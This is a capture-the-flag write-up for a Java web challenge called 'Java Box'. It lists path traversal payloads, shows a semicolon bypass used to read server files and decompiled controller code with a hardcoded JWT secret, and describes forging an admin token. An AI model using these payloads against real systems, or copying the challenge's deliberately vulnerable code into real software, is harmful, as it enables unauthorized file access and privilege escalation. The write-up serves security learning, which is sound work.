




# Java Box
> I used to hate black box web challenges in CTFs, but then I remembered, my day job as a pentester also requires black box testing. Sometimes, what seems like a black box isn’t so black after all.

## About the Challenge
This challenge includes a website without source code, featuring only one functionality: `/register`.


After registering with any username and password, you’re redirected to the `/dashboard` page.


There’s an interesting jwt cookie here with an `isAdmin` flag set to false.



This means to get the flag, we’ll need to set `isAdmin` flag to true.

## How to Solve?

We initially tried a few common techniques:

- Bruteforcing the key with the Rockyou wordlist
- Changing the algorithm to none
- Signing the token with an empty key
- Etc

But none of these methods worked. While checking the dashboard endpoint, we found an `/assets/box.jpg`endpoint, which displayed an error stack trace when the filename was removed.



```
java.lang.Exception: getResourceAsStream failed\n\tat com.cyberjawara.chall.web.javabox.controller.MainController.getAssetFile(MainController.java:95)\n\tat jdk.internal.reflect.GeneratedMethodAccessor4.invoke(Unknown Source)\n\tat java.base/jdk.interna...
```

This shows the method name and function call (`getResourceAsStream`), meaning the web server searches for a file after the `/assets/` endpoint. If we remove the trailing slash, we get another interesting error.



```
java.lang.StringIndexOutOfBoundsException: begin 8, end 7, length 7\n\tat java.base/java.lang.String.checkBoundsBeginEnd(String.java:4601)\n\tat java.base/java.lang.String.substring(String.java:2704)\n\tat java.base/java.lang.String.substring(String.java:2677)\n\tat com.cyberjawara.chall.web.javabox.controller.MainController.getAssetFile(MainController.java:91)\n\tat jdk.internal.reflect.GeneratedMethodAccessor4.invoke(Unknown Source)\n\tat java.base/jdk...
```

Hmmm, interesting error. The substring method must be validating the path, so we tried a few classic path traversal payloads like dot dot slash:

```
/assets/../box.jpg
/assets/..\box.jpg
/assets/%2e%2e%2fbox.jpg
//assets
/assets//../box.jpg
//assets/../box.jpg
dll
```

After reading some articles, we found that a semicolon (`;`) can sometimes affect the path. Testing it gave some interesting results:

```
/assets -> error StringIndexOutOfBoundsException
/assets/ -> error getResourceAsStream
```

Adding a semicolon after "assets" changed things:

```
/assets; -> error getResourceAsStream
```

Huh? Instead of throwing `StringIndexOutOfBoundsException` error, we got `getResourceAsStream`. And then I tried few more things

```
/assets;box.jpg -> Works
/assets;../assets/box.jpg -> Works!!
```

Looks like we have path traversal! To confirm, we tried reading the `application.properties` file, and yep, it worked.



Yatta! Next up, we found the source code folder and we able to read `MainController.class` file with some teamwork. Here is the content of `MainController.class` file:


```java
package com.cyberjawara.chall.web.javabox.controller;

import com.cyberjawara.chall.web.javabox.util.JwtUtil;
import io.jsonwebtoken.Claims;
import jakarta.servlet.http.Cookie;
import jakarta.servlet.http.HttpServletRequest;
import jakarta.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.FileReader;
import java.io.IOException;
import java.io.InputStream;
import java.nio.file.Files;
import java.nio.file.Path;
import org.springframework.http.HttpHeaders;
import org.springframework.http.HttpStatus;
import org.springframework.http.MediaType;
import org.springframework.http.ResponseEntity;
import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.CookieValue;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestParam;

@Controller
public class MainController {
   @GetMapping({"/"})
   public String index() {
      return "index";
   }

   @GetMapping({"/register"})
   public String registerPage() {
      return "register";
   }

   @PostMapping({"/register"})
   public String register(@RequestParam String username, @RequestParam String password, HttpServletResponse response) {
      if (username != null && password != null && username.length() > 3 && password.length() > 3) {
         String jwt = JwtUtil.generateToken(username, false);
         Cookie cookie = new Cookie("jwt", jwt);
         cookie.setHttpOnly(true);
         cookie.setPath("/");
         response.addCookie(cookie);
         return "redirect:/dashboard";
      } else {
         return "redirect:/register";
      }
   }

   @GetMapping({"/dashboard"})
   public String dashboard(@CookieValue(value = "jwt",defaultValue = "") String jwt, Model model) {
      try {
         Claims claims = JwtUtil.validateToken(jwt);
         String username = (String)claims.get("username", String.class);
         Boolean isAdmin = (Boolean)claims.get("isAdmin", Boolean.class);
         if (isAdmin) {
            String filePath = "/flag.txt";

            try {
               BufferedReader br = new BufferedReader(new FileReader(filePath));

               try {
                  String content = br.readLine();
                  model.addAttribute("flag", content);
               } catch (Throwable var11) {
                  try {
                     br.close();
                  } catch (Throwable var10) {
                     var11.addSuppressed(var10);
                  }

                  throw var11;
               }

               br.close();
            } catch (IOException var12) {
            }
         }

         model.addAttribute("username", username);
         model.addAttribute("isAdmin", isAdmin);
         return "dashboard";
      } catch (Exception var13) {
         return "redirect:/register";
      }
   }

   @GetMapping({"/logout"})
   public String logout(HttpServletResponse response) {
      Cookie jwtCookie = new Cookie("jwt", "");
      jwtCookie.setMaxAge(0);
      jwtCookie.setPath("/");
      jwtCookie.setHttpOnly(true);
      response.addCookie(jwtCookie);
      return "redirect:/";
   }

   @GetMapping({"/assets/**"})
   public ResponseEntity<byte[]> getAssetFile(HttpServletRequest request) throws Exception {
      String requestURI = request.getRequestURI();
      String resourcePath = "/assets/" + requestURI.substring("/assets/".length());

      try {
         InputStream inputStream = this.getClass().getResourceAsStream(resourcePath);

         ResponseEntity var8;
         try {
            if (inputStream == null || !hasExtension(resourcePath)) {
               throw new Exception("getResourceAsStream failed");
            }

            byte[] fileContent = inputStream.readAllBytes();
            String mimeType = Files.probeContentType(Path.of(resourcePath, new String[0]));
            if (mimeType == null) {
               if (resourcePath.endsWith(".css")) {
                  mimeType = "text/css";
               } else {
                  mimeType = "text/plain";
               }
            }

            HttpHeaders headers = new HttpHeaders();
            headers.setContentType(MediaType.parseMediaType(mimeType));
            var8 = new ResponseEntity(fileContent, headers, HttpStatus.OK);
         } catch (Throwable var10) {
            if (inputStream != null) {
               try {
                  inputStream.close();
               } catch (Throwable var9) {
                  var10.addSuppressed(var9);
               }
            }

            throw var10;
         }

         if (inputStream != null) {
            inputStream.close();
         }

         return var8;
      } catch (IOException var11) {
         return ResponseEntity.status(HttpStatus.INTERNAL_SERVER_ERROR).body((Object)null);
      }
   }

   public static boolean hasExtension(String filename) {
      if (filename != null && !filename.isEmpty()) {
         if (filename.length() < 3) {
            return false;
         } else {
            int dotIndex = filename.lastIndexOf(46);
            return dotIndex > 0 && dotIndex < filename.length() - 2;
         }
      } else {
         return false;
      }
   }
}
```

We saw an import for `import com.cyberjawara.chall.web.javabox.util.JwtUtil`, so we decompiled that file too

```java
package com.cyberjawara.chall.web.javabox.util;

import io.jsonwebtoken.Claims;
import io.jsonwebtoken.Jwts;
import io.jsonwebtoken.SignatureAlgorithm;
import java.util.Date;
import java.util.Map;

public class JwtUtil {
   private static final String SECRET_KEY = "c31bcd4ffcff8e971a6ad6ddcbdc613a1246f4223c00fa37404b501ad749257c";

   public static String generateToken(String username, boolean isAdmin) {
      return Jwts.builder().setClaims(Map.of("username", username, "isAdmin", isAdmin)).setExpiration(new Date(System.currentTimeMillis() + 3600000L)).signWith(SignatureAlgorithm.HS256, "c31bcd4ffcff8e971a6ad6ddcbdc613a1246f4223c00fa37404b501ad749257c").compact();
   }

   public static Claims validateToken(String token) {
      return (Claims)Jwts.parser().setSigningKey("c31bcd4ffcff8e971a6ad6ddcbdc613a1246f4223c00fa37404b501ad749257c").parseClaimsJws(token).getBody();
   }
}
```

So we found the signing key for JWT: `c31bcd4ffcff8e971a6ad6ddcbdc613a1246f4223c00fa37404b501ad749257c`. All we needed was to set `isAdmin` flag to true. But, when we tried the key on https://jwt.io the token didnt work. One teammate tried a different site, which is https://token.dev, and it finally worked (we still don’t know why jwt.io failed to sign the token lol).


## Flag

CJ{black_box_web_testing_is_not_that_bad_and_too_guessy_right?}


References:
- https://www.immunit.ch/en/blog/2018/11/02/cve-2018-11759-apache-mod_jk-access-control-bypass/
- https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/